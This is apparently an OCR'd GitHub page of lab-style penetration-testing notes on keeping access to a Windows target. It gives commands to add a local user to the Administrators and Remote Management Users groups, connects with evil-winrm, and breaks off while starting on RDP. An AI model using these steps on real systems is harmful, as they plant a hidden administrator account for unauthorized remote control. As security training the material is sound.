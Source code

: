 command syntax: net user USERNAME PASSWORD /add

## Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:

Command syntax: net localgroup Administrators USERNAME /add

command syntax: net localgroup "Remote Management Users" USERNAME /add

## After that we can check can we add our user to addmistrator group and remote managment group by the command 

command syntax: net user username

## As we have our user on target machine with remote managment so we user evil-winrm to connect to the target 

you can install this by using this command in kali 

command: sudo gem install evil-winrm

OR 

you can clone it through git hub using this link

link: https://github.com/Hackplayers/evil-winrm


## Now we evil winrm and our user so we can connect it using command 

command: evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP 

## In my case i have sshuttle for reverse connection 

## Using this i am connected to the target machine 

### Note that evil-winrm usually gives medium integrity shells for added administrator accounts. Even if your new account has Administrator permissions, you won't actually be able to perform administrative actions with it via winrm.




### Now let's look at connecting over RDP for a GUI environment.

There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can install xfreerdp with the command:

command: sudo apt install freerdp2-x11

